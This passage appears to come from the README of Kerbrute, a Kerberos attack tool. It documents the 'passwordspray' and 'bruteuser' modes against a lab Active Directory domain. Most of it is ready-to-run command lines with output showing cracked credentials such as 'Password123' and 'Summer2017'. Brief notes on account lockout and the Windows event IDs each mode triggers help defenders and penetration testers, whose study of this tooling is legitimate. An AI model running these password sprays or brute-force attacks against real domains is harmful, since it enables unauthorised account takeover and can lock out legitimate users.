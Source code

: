 ### Password Spray
With `passwordspray`, Kerbrute will perform a horizontal brute force attack against a list of domain users. This is useful for testing one or two common passwords when you have a large list of users. WARNING: this does will increment the failed login count and lock out accounts. This will generate both event IDs [4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) and [4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

```
root@kali:~# ./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (43f9ca1) - 03/06/19 - Ronnie Flathers @ropnop

2019/03/06 21:37:29 >  Using KDC(s):
2019/03/06 21:37:29 >   pdc01.lab.ropnop.com:88

2019/03/06 21:37:35 >  [+] VALID LOGIN:  callen@lab.ropnop.com:Password123
2019/03/06 21:37:37 >  [+] VALID LOGIN:  eshort@lab.ropnop.com:Password123
2019/03/06 21:37:37 >  Done! Tested 2755 logins (2 successes) in 7.674 seconds
```

### Brute User
This is a traditional bruteforce account against a username. Only run this if you are sure there is no lockout policy! This will generate both event IDs [4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) and [4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

```
root@kali:~# ./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (43f9ca1) - 03/06/19 - Ronnie Flathers @ropnop

2019/03/06 21:38:24 >  Using KDC(s):
2019/03/06 21:38:24 >   pdc01.lab.ropnop.com:88

2019/03/06 21:38:27 >  [+] VALID LOGIN:  thoffman@lab.ropnop.com:Summer2017
2019/03/06 21:38:27 >  Done! Tested 1001 logins (1 successes) in 2.711 seconds
```
